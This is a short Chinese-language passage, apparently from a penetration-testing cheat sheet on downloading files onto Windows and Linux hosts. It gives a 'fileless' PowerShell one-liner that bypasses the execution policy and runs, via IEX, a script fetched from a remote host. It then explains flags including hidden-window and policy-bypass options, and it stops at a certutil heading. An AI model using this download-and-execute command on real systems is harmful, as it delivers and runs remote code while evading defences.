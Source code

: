 

 ##### 无文件落地执行bypass：

```
powershell -Nop -Exec Bypass -c "IEX ((New-Object Net.WebClient).DownloadString('http://192.168.10.11/eval.txt'))"
```

![powershell-4](Windows&Linux常见文件下载方法/powershell-4.png)



##### 参数说明：

+ IEX：Invoke-Expression 将字符串当作powershell代码执行

+ Set-Alias： 给powershell函数以及变量赋予别称

+ -Nop：等价于-Noprofile  不加载用户配置

+ -Non1：不进行交互

+ -Noexit：执行完不退出

+ -Nologo：执行时不显示Logo

+ -w hidden：等价于-WindowsStyle hidden ，隐藏执行命令窗口

+ -ep bypass：忽略执行策略文件

+ -c： 执行powershell 命令

  

####  ***certutil 命令行程序***（仅测试了03及以上）
